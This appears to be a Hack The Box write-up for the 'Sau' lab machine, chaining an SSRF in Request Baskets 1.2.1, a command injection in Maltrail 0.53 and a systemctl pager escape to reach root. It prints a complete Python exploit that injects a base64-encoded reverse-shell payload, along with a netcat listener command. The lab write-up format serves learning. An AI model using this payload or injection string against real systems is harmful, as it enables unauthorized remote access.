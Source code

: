 ```yaml
---
title: "Hack The Box: Sau Write-Up"
date: 2024-01-21 14:00
categories: [Write-ups]
tags: [htb, lab, nmap, ssrf, command injection]
img_path: /htb/machines/sau/
---
```


Sau was my first active easy-rated machine that I was able to pwn on HackTheBox. It was quite challenging because it combined several vulnerabilities that need to be exploited to get the flags. For one of those vulnerabilities, I also had to stop for a while in order to get more familiar with it before I could properly exploit it. But on the other hand, it was very rewarding when I finally got the root flag. So let's go through the whole process together.

## Enumeration

Let's start with an nmap scan as always.

```console
$ nmap -sV -sC -Pn 10.10.11.224
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown
```

We can see that nmap could find the ports 22, 80, 55555 with the services ssh, http, and unknown, respectively. However, the messages to port 80 seem to have been filtered by a firewall. So maybe this is a web server listening on localhost only? Let's remember that for later.

To get more information about the other ports, let's do a more in-depth scan for those.

```console
nmap -sV -sC -p 22,55555 10.10.11.224
```

![Nmap Scan](nmap-scan.png)

In the output, you will also see the fingerprint of the service running on port 55555 because this service is unknown to nmap. However, as it seems to respond to HTTP requests, we can assume that it is some kind of web service. Let's take a look at it in the browser.

![Request Baskets](request-baskets.png)

It is a service called [Request Baskets](https://github.com/darklynx/request-baskets). After some quick research, it is a service that collects HTTP requests that go through so-called baskets for later inspection via an API or the UI. 

In the footer of the homepage, you can also see that version 1.2.1 is in use. Let's search on the Internet if there are some known vulnerabilities for this version. Indeed, we quickly find [CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163) mentioned which explains that the API endpoint /api/baskets/{name} is vulnerable to a Server-Side Request Forgery (SSRF) attack.

There is also an [example exploit](https://packetstormsecurity.com/files/174128/Request-Baskets-1.2.1-Server-Side-Request-Forgery.html) available. We can take a look at it to get a better understanding of how the exploit works. It makes a POST request to the endpoint /api/baskets/{name}. In the payload, the "forward_url" attribute is set to an attacker server. This server can either be a server controlled by us or an internal server of the target network that we cannot access from outside.

Remember our assumption that an internal web server may be running on port 80 that only listens on localhost? Taking that into account, the latter option seems promising to get access to that web server.

## SSRF Exploitation in Request Baskets

There are mainly two ways how we can exploit the SSRF vulnerability. We can either use the API directly like in the example exploit or configure a basket via the UI. We'll take the UI route because I personally think it's a bit easier. 

First, we create a basket with an arbitrary name and open it.

![Empty Basket](empty-basket.png)

Afterwards, we can configure the basket settings by clicking on the cogwheel on the top right.

Let's set the Forward URL field to *http://localhost:80* and check all the checkboxes. We can keep the default value for Basket Capacity.

![Basket Settings](basket-settings-1.png)

Once that's done, we can make a curl request to the basket. It should now forward the request to the internal web server on port 80 and return the HTML code for its homepage.

```console
curl http://10.10.11.224:55555/{bucket_name} > request_hidden_page.html
```

When we inspect the HTML code's title tag, we can see that the internal web server runs a service called Maltrail. At the bottom, we can also find the version in use: 0.53.

> You can also find a small Easter Egg in the HTML code. Hint: collaboration.
{: .prompt-info}

## Mailtrail

We can now repeat the process from before and search for known vulnerabilities for this service's version. Luckily, we can find an [Unauthenticated OS Command Injection](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/). It seems that the login page allows OS command injection in the username parameter. This looks like a vulnerability we can use to get a reverse shell.

In order to do that, we first need to change the Forward URL setting of our basket to *http://localhost:80/login*. 

![Basket Settings](basket-settings-2.png)

After that, we can use an already existing exploit written in Python, adjusting it slightly. The source code can be found [here](https://github.com/spookier/Maltrail-v0.53-Exploit/blob/main/exploit.py). For our purposes, we will only remove the concatenation of the "/login" string in line 28. The result looks like this:

```python
import sys;
import os;
import base64;

def main():
	listening_IP = None
	listening_PORT = None
	target_URL = None

	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)
	
	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3]
	print("Running exploit on " + str(target_URL))
	curl_cmd(listening_IP, listening_PORT, target_URL)

def curl_cmd(my_ip, my_port, target_url):
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)

if __name__ == "__main__":
  main()
```

Before we start this script, however, we will need to start a netcat listener in a different terminal window.

```console
nc -lnvp 4444
```

Now we are ready to execute the exploitation script.

```console
python3 exploit.py {your_tun0_ip} 4444 http://10.10.11.224:55555/{basket_name}
```

On our netcat listener, we should get a reverse shell back as the user puma.

![Reverse Shell](reverse-shell.png)

The user flag can be found under /home/puma/user.txt.

## Privilege Escalation

In order to get the root flag, we need to find a way to escalate our privileges. First, let's see what privileges our current user has.

```console
sudo -l
```

![Sudo Privileges](sudo-privileges.png)

Apparently, we can execute the systemctl status subprogram for the trail service. Let's look on the Internet if we can exploit this somehow. After a bit of searching, we can find [CVE-2023-26604](https://nvd.nist.gov/vuln/detail/CVE-2023-26604). This CVE explains that versions of systemd before 247 are vulnerable to local privilege escalation. Let's see if this applies to our current situation.

```console
systemctl --version
```

The systemd version of our target host seems to be 245. So it should be vulnerable. Let's try it.

```console
sudo /usr/bin/systemctl status trail.service
```

After it has opened, type "!/bin/sh" to get a root shell.

The system flag can be found under /root/root.txt.